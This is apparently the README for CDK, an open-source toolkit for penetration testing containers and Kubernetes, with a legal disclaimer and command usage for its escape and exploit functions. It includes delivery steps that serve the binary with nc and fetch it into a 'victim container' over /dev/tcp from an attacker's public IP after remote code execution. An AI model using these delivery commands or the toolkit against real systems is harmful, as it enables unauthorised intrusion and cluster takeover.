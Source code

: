 
# CDK - Zero Dependency Container Penetration Toolkit

English | [简体中文](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

![png](https://static.cdxy.me/20201203170308_NwzGiT_Screenshot.jpeg)

## Legal Disclaimer

Usage of CDK for attacking targets without prior mutual consent is illegal.
CDK is for security testing purposes only.

## Overview

CDK is an open-sourced container penetration toolkit, designed for offering stable exploitation in different slimmed containers without any OS dependency. It comes with useful net-tools and many powerful PoCs/EXPs and helps you to escape container and take over K8s cluster easily.

## Installation/Delivery

Download latest release in https://github.com/cdk-team/CDK/releases/

Drop executable files into the target container and start testing.

### TIPS: Deliver CDK into target container in real-world penetration testing

If you have an exploit that can upload a file, then you can upload CDK binary directly.

If you have a RCE exploit, but the target container has no `curl` or `wget`, you can use the following method to deliver CDK:

1. First, host CDK binary on your host with public IP.
```
(on your host)
nc -lvp 999 < cdk
```

2. Inside the victim container execute
```
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk
chmod a+x cdk
```

## Usage
```
Usage:
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk auto-escape <cmd>
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.

Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki

Auto Escape:
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.
```